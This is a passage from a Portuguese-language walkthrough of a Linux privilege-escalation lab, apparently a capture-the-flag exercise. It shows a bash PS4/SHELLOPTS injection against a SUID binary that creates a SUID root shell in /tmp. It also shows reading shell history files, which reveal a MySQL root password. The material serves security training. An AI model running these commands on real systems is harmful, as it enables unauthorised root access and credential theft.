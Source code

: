 Agora, basta executar:

```shell
/usr/local/bin/suid-env2
```
Um bash como superusuário será iniciado.

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 15 - SUID / SGID Executables - Abusing Shell Features (#2) 

Nota: Isso não funcionará nas versões Bash 4.4 e superiores.

Quando no modo de depuração, o Bash usa a variável de ambiente ***PS4*** para exibir um prompt extra para instruções de depuração.

Execute o executável ***/usr/local/bin/suid-env2*** com a depuração bash habilitada e a variável ***PS4*** definida como um comando incorporado que cria uma versão SUID de ***/bin/bash***:

```shell
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Agora, executa-se o /tmp/rootbash com -p para obter um shell rodando com privilégios de root:

```shell
/tmp/rootbash -p
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 16 - Passwords & Keys - History Files 

Se um usuário digitar acidentalmente sua senha na linha de comando em vez de em um prompt de senha, ela poderá ser gravada em um arquivo de histórico.

Visualize o conteúdo de todos os arquivos de histórico ocultos no diretório inicial do usuário:

```shell
user@debian:~$ cat ~/.*history | less

ls -al
cat .bash_history 
ls -al
mysql -h somehost.local -uroot -ppassword123
exit
cd /tmp
clear
ifconfig
netstat -antp
nano myvpn.ovpn 
ls
identify

(END) 
```

